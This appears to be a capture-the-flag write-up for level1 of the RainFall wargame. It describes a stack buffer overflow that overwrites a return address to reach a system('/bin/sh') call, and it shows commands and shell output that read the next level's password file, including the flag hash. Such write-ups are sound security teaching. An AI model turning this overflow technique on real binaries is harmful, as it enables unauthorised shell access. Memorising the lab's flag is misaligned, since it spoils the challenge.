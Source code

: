 # level1

## Header

```bash
ssh level1@$IP -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

<hr>

## Solution

[Disassembling](./source.s) gives us important information: <br>
There is a function called `run` that contains `system("/bin/sh")` call. <br>
To use the exploit, we need to overload the buffer in the `main` function and overwrite return address. <br>

Download or clone [payload](./payload.py) to any folder with write access (`/tmp` is a good option) and <br>
run the following command:
```bash
scp -P 4242 ./level1/payload.py level1@192.168.64.9:/tmp/payload1.py

python /tmp/payload1.py
```

This will produce payload file that should be used to exploit the binary:

```bash
level1@RainFall:~$ (cat /tmp/payload1; cat) | ./level1
Good... Wait what?
cd ../level2
ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## References

- [This is why you should pass payload to binary like that](https://security.stackexchange.com/questions/155832/system-bin-sh-exits-without-waiting-for-user-input-overthewire-narnia0-chal)
